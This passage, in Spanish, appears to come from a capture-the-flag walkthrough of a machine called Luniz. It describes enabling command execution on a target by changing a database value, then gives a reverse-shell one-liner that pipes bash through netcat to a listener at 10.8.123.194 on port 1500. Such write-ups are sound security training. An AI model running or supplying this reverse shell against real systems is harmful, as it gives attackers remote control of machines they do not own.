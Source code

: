 ![](/assets/images/Luniz/image033.png)

Podemos observar que llegamos a cambiar el valor del registro de la columna run. Además, si volvemos a observar el recurso whatever desde nuestro navegador web, observaremos que esta en modo 1, y que nos permite ejecutar comandos en el sistema destino.

Ahora ejecutaremos este comando: `mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1500` para que nos genere una reverse Shell, pero antes no nos olvidemos de poner en escucha el puerto 1500 en nuestro sistema para que acepte la conexión entrante por la reverse Shell.

![](/assets/images/Luniz/image035.png)

![](/assets/images/Luniz/image037.png)

